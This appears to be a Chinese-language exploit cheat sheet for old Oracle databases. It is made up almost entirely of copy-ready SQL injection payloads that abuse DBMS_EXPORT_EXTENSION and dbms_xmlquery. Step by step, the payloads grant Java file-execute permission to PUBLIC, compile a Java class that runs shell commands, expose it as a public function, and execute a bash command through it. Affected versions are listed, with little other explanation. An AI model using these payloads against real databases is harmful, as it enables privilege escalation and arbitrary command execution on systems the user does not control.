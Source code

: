 **赋予Java权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

**创建函数**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予函数执行权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

**执行系统命令**

```
select sys.LinxRunCMD('/bin/bash -c /usr/bin/whoami') from dual
```

<img src="assets/41f945b7ba440cd61ac1d793ac910364.png" alt="41f945b7ba440cd61ac1d793ac910364" style="zoom:50%;" />



**dbms_xmlquery.newcontext()**

```
•影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)

•必须在DBMS_PORT_EXTENSION存在漏洞情况下，否则赋予权限时无法成功s
```

**创建Java库**

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```
